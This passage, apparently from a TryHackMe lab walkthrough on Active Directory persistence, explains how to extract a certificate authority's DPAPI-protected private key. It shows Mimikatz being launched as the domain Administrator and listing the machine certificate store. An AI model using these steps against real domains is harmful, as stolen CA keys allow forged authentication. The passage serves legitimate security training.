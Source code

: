 ## Extracting the Private Key

The private key of the CA is stored on the CA server itself. If the private key is not protected through hardware-based protection methods such as an Hardware Security Module (HSM), which is often the case for organisations that just use Active Directory Certificate Services (AD CS) for internal purposes, it is protected by the machine Data Protection API (DPAPI). This means we can use tools such as Mimikatz and SharpDPAPI to extract the CA certificate and thus the private key from the CA. Mimikatz is the simplest tool to use, but if you want to experience other tools, have a look [here](https://pentestlab.blog/2021/11/15/golden-certificate/). Use SSH to authenticate to THMDC.za.tryhackme.loc using the Administrator credentials from Task 2, create a unique directory for your user, move to it, and load Mimikatz:

```shell-session
za\administrator@DC C:\Users\Administrator.ZA>mkdir <username> 
za\administrator@DC C:\Users\Administrator.ZA>cd <username>
za\administrator@DC C:\Users\Administrator.ZA\am0>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53 
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/ 

mimikatz #
```

Let's first see if we can view the certificates stored on the DC:

```shell-session
mimikatz # crypto::certificates /systemstore:local_machine
 * System Store  : 'local_machine' (0x00020000)
 * Store         : 'My'

 0.
    Subject  :
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 040000000000703a4d78090a0ab10400000010
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 8:32:43 PM -> 4/27/2023 8:32:43 PM
    Hash SHA1: d6a84e153fa326554f095be4255460d5a6ce2b39
        Key Container  : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        Provider       : Microsoft RSA SChannel Cryptographic Provider
        Provider type  : RSA_SCHANNEL (12)
        Type           : AT_KEYEXCHANGE (0x00000001)
        |Provider name : Microsoft RSA SChannel Cryptographic Provider
        |Key Container : te-DomainControllerAuthentication-5ed52c94-34e8-4450-a751-a57ac55a110f
        |Unique name   : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
        Exportable key : NO
[....]
```
